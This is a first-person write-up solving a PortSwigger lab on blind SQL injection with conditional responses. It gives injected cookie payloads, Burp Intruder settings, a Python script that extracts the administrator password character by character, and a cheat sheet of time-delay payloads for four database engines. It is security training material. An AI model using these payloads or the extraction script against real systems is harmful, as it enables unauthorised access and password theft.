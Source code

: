 # Lab09: Blind SQL injection with conditional responses
* url: `https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses`
* vulnerability: `Blind SQL injection with conditional responses`


## Description 
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a Welcome back message in the page if the query returns any rows.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

## Proof of Concept
1. Unlike the previous labs, I do not see the results of the SQL query or any error messages. So, I must rely on studying the `application's behavior`. 
2. From the description of the lab, It tells me that the application uses a `tracking cookie` and uses this cookie to perform "authentication" within a SQL query. It also tells me that the web application returns a `Welcome Back` message if the query returns any rows of data. 
3. Although the description of the lab specifies that there is a `users` table, in a real-world scenario I may not know, so I have an additional step to check for a `users` table. 
4. First, I intercept the request in `Burp Suite` and alter the `TrackingID` cookie with the following payloads:  
* `' AND 1=1-- -`
* `' AND 1=2-- -`  
> Observe how the web application responds. There is no "Welcome back" message with the 1=2 payload

![descript](images/sqli-practitioner-lab09-1.png)  
![descript](images/sqli-practitioner-lab09-2.png)  
5. Because I can use the existence of `Welcome back` in the application's response as a check if the query ran in the back end, I can now alter my payload to check for the existence of a `users` table: `' AND (SELECT 'success' FROM users LIMIT 1)='success'-- -`
> `LIMIT 1` is necessary to ensure the query only retrieves one `row` from the users table. If the users table has multiple rows and the query tries to return all of them, the subquery will fail because the comparison `SELECT 'success' from users = 'success'` expects the subquery to return one value (`like 'success'`)

![descript](images/sqli-practitioner-lab09-limit.png)  
6. Now that I verified the existence of the `users` table, I can now check for the existence of `administrator` in the `username` column of the users table. I can just add a `WHERE` clause to my previous payload like: `' AND (SELECT 'success' FROM users WHERE username = 'administrator)='success'-- -`  
![descript](images/sqli-practitioner-lab09-admin-check.png)  
7. Now I must check the length of the `password` for the administrator user. To do this I can use the following payload: `' AND (SELECT 'success' FROM users WHERE username = 'administrator' AND LENGTH(password)>1)='success'-- -`
> This will check if the length of the password is greater than 1, and I can keep incrementing it until I do not see the `Welcome Back` message anymore. The password length is 20! 

![descript](images/sqli-practitioner-lab09-pass-length.png)  
8. Now that I know the length of the `password` for `administrator`, I can start checking for each value of password using `Burp Intruder`. I can use the following payload: `' AND (SELECT SUBSTRING(password, 1, 1) FROM users WHERE username = 'administrator')='a'-- -`. 
Within Intruder, I can:
* use `Cluster Bomb Attack Type` 
* select 'a' and '1' as my `payload position markers`. 
* use Burp's `Grep-Match` settings and configure it to look for "Welcome back" in the server's response to identify successful matches.  
9. Although this process is possible within Burp Suite, I have the community version- so the speed at which Burp sends the requests are throttled, and it would take hours for it to fully complete. So instead, I created a simple python script:
```
import requests

# global variables 
url = 'https://0ae700a0039e29be803a12be00420073.web-security-academy.net/filter?category=Pets'
characters = 'abcdefghijklmnopqrstuvwxyz'
pass_length = 20
password = ""

for x in range(1, 21): 
    for c in characters:
        cookies = dict(TrackingId=f"OYCgZkexDJmwvMoJ' AND (SELECT SUBSTRING(password, {x}, 1) FROM users WHERE username = 'administrator')='{c}'-- -")
        r = requests.get(url, cookies=cookies)

        if "Welcome back!" in r.text: 
            password += c
            break

print(f"The password is {password}")

```
10. From running this script I got the password value of `7iy30tfn4hwemekoxteh`. Using this password along with the `administrator` user on the login page will solve the lab!

## Notes
* Unlike attacks like `UNION-based` injections, `Blind SQLi` does not give the malicious actor output from the original query or error messages. So we must rely on the the web application's behavior. 
* There are two main ways to achieve this: 
  * `boolean attacks`: 1=1, 1=2
  * `time-based attacks`: pg_sleep(10), SLEEP(10)

### Time delays

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.
* **Oracle** 	`dbms_pipe.receive_message(('a'),10)`
* **Microsoft** 	`WAITFOR DELAY '0:0:10'`
* **PostgreSQL** 	`SELECT pg_sleep(10)`
* **MySQL** 	`SELECT SLEEP(10)`

### Conditional time delays

You can test a single boolean condition and trigger a time delay if the condition is true.
* **Oracle** 	`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`
* **Microsoft** 	`IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`
* **PostgreSQL** 	`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`
* **MySQL** 	`SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')` 
